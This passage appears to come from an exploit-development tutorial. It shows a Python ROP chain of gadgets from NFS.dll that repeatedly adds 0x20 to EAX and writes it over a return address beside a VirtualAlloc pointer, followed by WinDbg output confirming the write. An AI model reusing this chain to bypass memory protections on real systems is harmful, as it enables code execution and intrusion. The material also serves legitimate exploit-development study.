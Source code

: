 ```python
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx

# write eax into location pointed by ESI
rop += pack("<L", (0x1001bfe5)) # +--    NFS.dll.txt:9702:0x1001bfe5: mov dword [esi], eax ; mov dword [esi+0x08], eax ; mov dword [esi+0x04], eax ; pop esi ; ret  ; 
rop += pack("<L", (0x42424242)) # pop esi
```

We have a winning way now, and update our ROP gadget as outlined below. We move our `EAX` value to `ESI`, then we increase `EAX` by `0x20` several times until we have around `200` bytes or more. We then move the value in the `eax` register into the memory location pointed to by the `esi` register. We have successfully patched our return address.

```python
0:006> r
eax=0190e434 ebx=42424242 ecx=100252e0 edx=770313a0 esi=0190e2f4 edi=00669360
eip=1001bfed esp=0190e3a0 ebp=42424242 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
SNFS!_freebuf+0x29:
1001bfed 5e              pop     esi

0:006> dds esi -4 L5
0190e2f0  100252e0 SNFS!_imp__VirtualAlloc
0190e2f4  0190e434
0190e2f8  0190e434
0190e2fc  0190e434
0190e300  00000000

0:006> dds eax
0190e434  43434343
0190e438  43434343
```